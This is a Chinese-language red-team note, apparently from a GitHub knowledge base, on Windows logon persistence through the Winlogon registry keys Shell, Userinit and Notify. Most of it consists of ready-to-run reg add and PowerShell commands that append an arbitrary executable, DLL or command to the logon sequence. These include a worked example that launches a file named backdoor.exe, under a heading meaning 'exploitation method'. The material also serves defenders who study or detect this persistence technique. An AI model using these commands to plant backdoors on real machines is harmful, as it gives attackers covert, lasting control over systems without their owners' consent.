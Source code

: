 ## Winlogon Helper

`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`的作用是指定用户登录时 Winlogon 运行的程序

默认情况下，Winlogon 运行 Userinit.exe（运行登录脚本），重新建立网络连接，然后启动 Windows 用户界面 Explorer.exe

可以更改此条目的值以添加或删除程序

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit

# Usage
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <path to executable>" /f
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, <path to executable>" /f

# PowerShell 使用 Set-ItemProperty cmdlet 修改现有注册表项
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, <path to executable>" -Force
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, <path to executable>" -Force
```

`Notify `注册表项通常出现在较旧的操作系统（Windows 7 之前的操作系统）中，它指向处理 Winlogon 事件的通知包 DLL 文件

使用任意 DLL 替换此注册表下的DLLName将导致 Windows 在登录期间执行它

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify

# Usage
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\cscdll" /v DLLName /d "<path to dll>" /f
```

## 利用方法

Userinit 键默认的值为`C:\Windows\system32\userinit.exe`，修改注册表项`Userinit`以包含任意负载将导致系统在 Windows 登录期间运行两个可执行文件

```cmd
# Usage
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\system32\userinit.exe,<path to executable>"

# 执行程序
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\system32\userinit.exe,C:\Users\admin\Documents\backdoor.exe"

# 执行命令
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\system32\userinit.exe,<command>"
```
